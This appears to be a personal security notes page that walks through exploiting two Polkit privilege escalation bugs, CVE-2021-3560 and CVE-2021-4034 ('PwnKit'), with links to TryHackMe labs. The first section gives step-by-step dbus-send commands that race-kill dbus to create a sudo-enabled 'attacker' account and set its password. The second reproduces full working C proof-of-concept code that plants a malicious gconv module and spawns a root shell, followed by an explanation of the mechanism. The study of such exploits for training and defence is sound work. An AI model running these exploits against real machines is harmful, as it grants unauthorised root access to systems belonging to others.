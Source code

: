 # Exploiting Polkit

author:: Nathan Acks  
date:: 2022-02-13

## CVE-2021-3560

This bug is a combination of a race condition and bad error handling. Basically:

* Manually request an action that requires superuser access via DBus.
* Kill `dbus-daemon` *after* Polkit has received the message but *before* it responds (there’s the race).
* Polkit requests the user ID associated with the message, but since DBus has restarted it can’t reference the original message ID and responds with an error.
* Polkit mishandles the error, substituting 0 for the ID of the requesting user (there’s the botched error handling).
* Because the requesting user ID now appears to be root, Polkit just goes ahead and takes the action without issuing a challenge.

Ubuntu fixed with with version `0.105-26ubuntu1.1` of the `policykit-1` package (the last vulnerable version was `0.105-26ubuntu1`).

### Exploitation

(0) Construct a message similar to the following:

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1
```

The three parameters are:

* `string:attacker` — the name of the user to create.
* `string:"Pentester Account"` — the user “description” (GECOS field).
* `int32:1` — grant sudo access to the user.

(1) Begin by determining how long the message takes to execute on the target. This can be done with the `time` command.

```bash
time dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1
```

(3) DBus needs to be killed approximately *halfway* through this execution period. We *cannot* wait for the application to return, so instead we background it.

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1 & \
sleep ${TIME}s; kill $!
```

Here `$TIME` is approximately half the time measured in the previous step.

(4) ID the created user.

```bash
id attacker
```

(5) Create a new password hash for the user.

```bash
openssl passwd -6 $PASSWORD
```

(6) Pull the same trick as in step 3, but with setting the created user’s password.

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts/User$UID \
	              org.freedesktop.Accounts.User.SetPassword \
	              string:'$PASSWORD_HASH' \
	              string:'Ask the pentester' & \
sleep ${TIME}s; kill $!
```

Here `$UID` is the user ID retrieved in step 4 (note that there’s *no* space between `User` and the ID, so you’ll be hitting an endpoint that looks something like `/org/freedesktop/Accounts/User1003`), `$PASSWORD_HASH` is the hash returned in step 5, and `$TIME` is the same timing determined from step 3. The second `string`  being passed in the user password hint.

(7) Log in as the new user (probably via `su`).

## CVE-2021-4034 ("Pwnkit")

Quick-n-dirty Pwnkit exploit:

```c
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>
"
	"#include <stdlib.h>
"
	"#include <unistd.h>

"
	"void gconv() {}
"
	"void gconv_init() {
"
	"	setuid(0); setgid(0);
"
	"	seteuid(0); setegid(0);
"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");
"
	"	exit(0);
"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

The exploit is then as simple as `gcc $FILE -o exploit; ./exploit`. 

*This version of the exploit will leave traces in the target's logs!*

Here's what happens on execution:

* The exploit creates the path `GCONV_PATH=.` in the current directory and adds an invalid executable file to it.
* The exploit creates a second directory called `pwnkit` and sets up a malicious shared library designed to be loaded by GLib to translate system messages to the made-up character set "PWNKIT".
* The exploit calls `pkexec` with a NULL argument list (this bit is important, since we need the length of the argument list to be 0 -- so, not even to contain the name of `pkexec` itself) *but* with a correctly set up (albeit malicious) environment via `execve()`. Importantly, the first "variable" in the environment is actually the name of the (invalid) executable in the `GCONV_PATH=.` directory.
* Polkit just falls through the loop that it would normally use to walk through the passed-in arguments. This causes what would be pointing to an executable name to instead point to the first environment variable that's passed into `execve()`, which happens to be string `pwnkit`.
* Polkit looks up the malicious executable, finds it in `GCONV_PATH=./pwnkit` (because we set the PATH to that directory), and then tries to replace the executable name with this full path. *Except* that it's still writing to the first element of the environment, which causes `pwnkit` to be replaced by `GCONV_PATH=./pwnkit`.
* Polkit the proceeds to sanitize its environment. When it comes to the invalid SHELL variable this sanitization fails and Polkit throws an error and dies. *But!* Before dying, Polkit tries to *print* the error using a GLib function that dutifully attempts to translate the message into the "PWNKIT" character set. To figure out how to do this, modules are loaded from GCONV_PATH... And we've defined a malicious module to do this that cleans up the exploit files and spawns a root shell (since `pkexec` is SUID root).

## References

* [TryHackMe: Pwnkit (CVE-2021-4034)](tryhackme-pwnkit-cve-2021-4034.md)
* [arthepsy / CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)
* [pwnkit: Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)
* [TryHackMe: Polkit CVE-2021-3560](tryhackme-polkit-cve-2021-3560.md)
